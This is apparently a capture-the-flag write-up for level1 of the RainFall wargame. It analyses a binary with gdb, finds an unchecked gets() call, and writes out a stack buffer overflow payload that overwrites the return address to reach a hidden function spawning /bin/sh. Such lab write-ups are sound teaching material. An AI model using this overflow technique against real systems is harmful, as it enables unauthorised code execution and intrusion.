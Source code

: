 # Level1

## Basic Info
```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
## Testing the program

```bash 
level1@RainFall:~$ ./level1 
a
level1@RainFall:~$ ./level1 
423
```

We have an executable that quits after given an argument. 

## Analysing the program

```bash 
info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
```

There are two functions main and run. 

### Main
```bash 
disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```

We allocate 0x50 (80 in decimal) bytes on the stack with 'sub'. 
Then 'lea' and 'mov', calculate the address of the variable located at esp + 0x10 and puts that address as argument for the 'gets()' call. 

### Run

```bash
Address	        Instruction	            Explanation
0x08048444	    push %ebp	            Save base pointer
0x08048445	    mov %esp, %ebp	        Set up new stack frame
0x08048447	    sub $0x18, %esp	        Reserve 24 bytes on the stack
0x0804844a	    mov 0x80497c0, %eax	    Load a global variable (possibly stdout or a string)
0x0804844f	    mov %eax, %edx	        Copy it into EDX
0x08048451	    mov $0x8048570, %eax	Load address of a string to print (format string?)
0x08048456–0x0804846a	                Prepare arguments for fwrite()
```

The run() function :
Displays a message with fwrite()
Executes a system command /bin/sh but it is never called in main


## Getting access to the shell 

We are going to do a [buffer overflow](https://www.youtube.com/watch?v=1S0aBV-Waeo) in the main, so that the return address is the address of the run which will call /bin/sh giving us access to a terminal where we will be able to call cat on the .passwd file. 


```bash 
set args < <(python -c 'print "A" * 80')
(gdb) run
Starting program: /home/user/level1/level1 < <(python -c 'print "A" * 80')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

info registers
esp            0xbffff740	0xbffff740
ebp            0x41414141	0x41414141
[...]
eip            0x41414141	0x41414141
[...]
```

EIP is overwritten, good. Let's remove 4 bytes to check if EIP start at 76. 

```bash 
set args < <(python -c 'print "A" * 76')

Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6
```

The last 4 bytes of the payload will be the address of the function "run" for calling it instead of EIP

The address of the "run" function is "0x08048444" has seen above, that we will convert to little endian

```bash
$ python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
$ 
```

We have access let's [script it](./Ressources/exploit.py)! 
